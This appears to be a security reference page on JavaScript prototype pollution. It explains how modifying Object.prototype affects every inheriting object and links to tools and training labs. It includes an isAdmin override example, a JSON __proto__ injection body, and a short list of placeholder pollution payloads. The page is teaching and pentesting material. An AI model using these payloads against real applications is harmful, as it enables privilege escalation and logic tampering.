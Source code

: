 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Labs](#labs)
* [Exploit](#exploit)
    * [Examples](#examples)
    * [Prototype pollution via JSON input](#prototype-pollution-via-json-input)
    * [Prototype pollution payloads](#prototype-pollution-payloads)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation


## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## Exploit

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Prototype pollution via JSON input

You can access the prototype of any object via the magic property `__proto__`.

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```


### Prototype pollution payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
```


## References

* [Server side prototype pollution, how to detect and exploit - YesWeHack](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
* [Prototype Pollution - PortSwigger](https://portswigger.net/web-security/prototype-pollution)
* [A Pentester’s Guide to Prototype Pollution Attacks - HARSH BOTHRA - JAN 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
* [Prototype pollution - Snyk](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
* [NodeJS - __proto__ & prototype Pollution - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)